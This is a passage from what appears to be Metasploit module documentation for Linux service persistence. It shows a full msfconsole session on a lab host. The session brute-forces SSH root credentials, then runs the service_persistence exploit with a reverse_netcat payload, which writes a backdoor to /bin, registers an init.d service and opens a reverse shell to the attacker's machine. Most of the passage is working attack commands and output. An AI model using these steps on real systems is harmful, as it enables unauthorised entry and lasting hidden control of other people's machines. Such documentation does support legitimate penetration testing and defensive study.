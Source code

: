   The name of the service to create.  If not chosen, a 7 character random one is created.

**SHELL_NAME**

  The name of the file to write with our shell.  If not chosen, a 5 character random one is created.

## Scenarios

### System V (Centos 5 - root - chkconfig)

Get initial access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.131
    rhosts => 192.168.199.131
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password centos
    password => centos
    msf auxiliary(ssh_login) > exploit
    
    [*] 192.168.199.131:22 SSH - Starting bruteforce
    [+] 192.168.199.131:22 SSH - Success: 'root:centos' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=root:system_r:unconfined_t:SystemLow-SystemHigh Linux localhost.localdomain 2.6.18-398.el5 #1 SMP Tue Sep 16 20:51:48 EDT 2014 i686 i686 i386 GNU/Linux '
    [*] Command shell session 1 opened (192.168.199.128:49359 -> 192.168.199.131:22) at 2016-06-22 14:27:38 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Install our callback service (system_v w/ chkconfig).  Note we change SHELLPATH since /usr/local/bin isnt in the path for CentOS 5 services.

    msf auxiliary(ssh_login) > use exploit/linux/local/service_persistence
    msf exploit(service_persistence) > set session 1
    session => 1
    msf exploit(service_persistence) > set verbose true
    verbose => true
    msf exploit(service_persistence) > set SHELLPATH /bin
    SHELLPATH => /bin
    msf exploit(service_persistence) > set payload cmd/unix/reverse_netcat
    payload => cmd/unix/reverse_netcat
    msf exploit(service_persistence) > set lhost 192.168.199.128
    lhost => 192.168.199.128
    msf exploit(service_persistence) > exploit
    
    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Writing backdoor to /bin/GUIJc
    [*] Max line length is 65537
    [*] Writing 95 bytes in 1 chunks of 329 bytes (octal-encoded), using printf
    [*] Utilizing System_V
    [*] Utilizing chkconfig
    [*] Writing service: /etc/init.d/HqdezBF
    [*] Max line length is 65537
    [*] Writing 1825 bytes in 1 chunks of 6409 bytes (octal-encoded), using printf
    [*] Enabling & starting our service
    [*] Command shell session 2 opened (192.168.199.128:4444 -> 192.168.199.131:56182) at 2016-06-22 14:27:50 -0400
